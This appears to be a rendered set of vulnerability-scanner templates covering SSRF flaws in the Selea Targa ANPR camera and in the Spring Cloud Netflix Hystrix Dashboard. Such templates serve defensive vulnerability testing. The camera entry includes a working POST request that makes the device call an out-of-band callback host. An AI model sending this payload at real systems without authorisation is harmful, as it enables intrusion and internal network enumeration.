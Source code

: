 # Selea Targa IP OCR-ANPR Camera - Unauthenticated SSRF

## Description

- Unauthenticated Server-Side Request Forgery (SSRF) vulnerability exists in the Selea ANPR camera within several functionalities. The application parses user supplied data in the POST JSON parameters 'ipnotify_address' and 'url' to construct an image request or check DNS for IP notification. Since no validation is carried out on the parameters, an attacker can specify an external domain and force the application to make an HTTP request to an arbitrary destination host. This can be used by an external attacker for example to bypass firewalls and initiate a service and network enumeration on the internal network through the affected application.
- severity - high
- tags - targa,ssrf,oast,iot,camera,selea

## Requests

### Step - 1

```
POST /cps/test_backup_server?ACTION=TEST_IP&NOCONTINUE=TRUE HTTP/1.1
Host: {{Hostname}}
content-type: application/json
Accept: */*

{"test_type":"ip","test_debug":false,"ipnotify_type":"http/get","ipnotify_address":"http://{{interactsh-url}}","ipnotify_username":"","ipnotify_password":"","ipnotify_port":"0","ipnotify_content_type":"","ipnotify_template":""}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Full-read SSRF in Spring Cloud Netflix (Hystrix Dashboard)

## Description

- Spring Cloud Netflix, versions 2.2.x prior to 2.2.4, versions 2.1.x prior to 2.1.6, and older unsupported versions allow applications to use the Hystrix Dashboard proxy.stream endpoint to make requests to any server reachable by the server hosting the dashboard. A malicious user, or attacker, can send a request to other servers that should not be exposed publicly.
- severity - medium
- tags - cve,cve2020,ssrf,springcloud
